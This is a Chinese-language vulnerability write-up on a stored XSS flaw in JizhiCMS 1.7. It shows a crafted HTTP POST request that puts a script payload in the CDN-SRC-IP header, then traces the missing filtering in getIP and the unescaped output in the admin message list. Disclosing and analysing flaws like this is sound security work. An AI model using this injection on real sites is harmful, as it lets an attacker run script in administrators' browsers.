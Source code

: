 @Author：Y4tacker

@Time：2021/5/12

# 极致CMS1.7存在存储型XSS漏洞



## 漏洞演示

首先前台发包

```
POST /message/index.html?XDEBUG_SESSION_START=14451 HTTP/1.1
Host: xxx.com
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://yyy.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
CDN-SRC-IP:1"script><script>alert(1)</script><
Cookie: csrf_c65ac5=fb408103; PHPSESSID=8r5l9qe20eigmokooigec4e71i
Connection: close

tid=4&user=1&title=1
```

登录后台点击留言列表，点击编辑

![](pic/1.png)

![](pic/12.png)

## 利用点分析

在分析之前我们得知道一个东西，在极致CMS当中对于接收的参数是通过类似下面的函数

```
$w['body'] = $this->frparam('body',1,'','POST');
```

我们跟进这个函数，获取参数传入`format_param`

![](pic/2.png)

跟进这个函数，不难得到过滤的很严格，因此我也不打算绕过了

![](pic/3.png)

接下来，好吧我挣扎一天了，断断续续的终于找到了

最终找到了一个神奇的地方`Home/c/MessageController.php`，在index函数当中

![](pic/4.png)

获取IP，调用add函数

![](pic/5.png)

我们来看这个getIP函数，妥妥的无过滤，这个对应文件头是`CDN-SRC-IP`

![](pic/6.png)

接下来我们看看后台留言管理编辑功能处`A/c/MessageController.php`的messagelist函数处，发现通过执行sql取出数据后，只是简单的进行了遍历，并没有进行过滤后再display输出

![](pic/13.png)

因此我们在点击编辑后会造成存储型xss的产生

![](pic/12.png)